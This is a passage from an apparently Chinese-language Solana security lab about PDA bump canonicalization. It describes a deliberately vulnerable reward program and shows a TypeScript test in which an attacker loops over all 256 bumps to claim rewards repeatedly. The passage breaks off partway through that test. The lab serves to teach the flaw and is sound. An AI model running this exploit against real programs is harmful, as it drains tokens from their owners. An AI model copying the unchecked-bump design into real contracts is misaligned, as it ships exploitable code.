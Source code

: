 请注意，该程序上有两个指令和一个位于`tests`目录中的测试。

程序上的指令为：

1. `create_user_insecure`
2. `claim_insecure`

`create_user_insecure`指令仅仅在一个使用签名者公钥和传入的bump派生的PDA上创建一个新帐户。

`claim_insecure`指令将向用户铸造10个代币，然后标记帐户的奖励已被索取，使他们无法再次索取。

然而，该程序并未显式检查相关的PDA是否使用了规范化的bump。

在继续之前，请查看程序以了解其功能。

### 2. Test insecure instructions

由于指令并未明确要求用户PDA使用规范的bump，攻击者可以针对每个钱包创建多个账户，并申领超出应允许的奖励。

在`tests`目录中的测试会创建一个名为`attacker`的新密钥对，代表一个攻击者。然后它会循环遍历所有可能的bumps，并调用`create_user_insecure`和`claim_insecure`。最终，该测试期望攻击者已经成功多次领取奖励，获得的代币超过每个用户被分配的10个。

```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate()
    await safeAirdrop(attacker.publicKey, provider.connection)
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey)

    let numClaims = 0

    for (let i = 0; i < 256; i++) {
      try {
        const pda = createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId
        )
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc()
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
          })
          .signers([attacker])
          .rpc()

        numClaims += 1
      } catch (error) {
        if (
          error.message !== "Invalid seeds, address must fall off the curve"
        ) {
          console.log(error)
        }
      }
    }

    const ata = await getAccount(provider.connection, ataKey)

    console.log(
```